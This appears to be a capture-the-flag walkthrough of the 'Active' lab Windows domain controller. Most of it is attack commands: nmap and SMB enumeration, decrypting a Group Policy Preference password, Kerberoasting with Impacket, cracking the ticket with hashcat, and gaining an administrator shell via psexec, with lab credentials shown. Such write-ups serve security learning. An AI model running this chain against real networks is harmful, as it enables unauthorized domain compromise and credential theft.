I start by scanning the target machine to identify open TCP ports using a basic TCP scan:
nmap <IP> -Pn -sT --open --stats-every=5s --reason -oN scan_active.txt
To extract just the open port numbers:
grep 'open' scan_active.txt | awk '{print $1}' | cut -d'/' -f1And to enumerate them as a comma-separated list for more specific scans:
grep 'open' scan_active.txt | awk '{print $1}' | cut -d'/' -f1 | paste -sd ','Using these open ports, I can perform service enumeration with version detection and NSE scripts.

UDP ports are also checked for SNMP and other common services.

This target is a Windows machine, so SMB could reveal sensitive information. I start with enum4linux:


Known users include administrator, guest, krbtgt, domain admins, root. The SMB share Replication is readable.
smbmap -H 10.10.10.100
To recursively view contents:

I find Groups.xml which contains a username and encrypted password:

The cpassword is a Group Policy Preference password. Using gpp-decrypt, I reveal:

Now I have credentials: active.htb\SVC_TGS:GPPstillStandingStrong2k18
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
I connect using smbclient to retrieve files and access the user.txt flag:
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18

Using LDAP queries, I enumerate domain users:
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountNameAlternatively, Impacket’s GetADUsers can simplify domain user enumeration:
impacket-GetADUsers -all active.htb/svc_tgs -dc-ip 10.10.10.100I target service accounts for Kerberoasting, extracting service tickets to crack offline:
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.outCracking the hash offline using hashcat gives the administrator password:
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
Using the admin credentials, I enumerate all SMB shares:
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
Connecting via smbclient, I retrieve the root_flag.txt:
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968With write access and administrative privileges, I can also obtain a remote shell using Impacket’s psexec:
impacket-psexec active.htb/administrator@10.10.10.100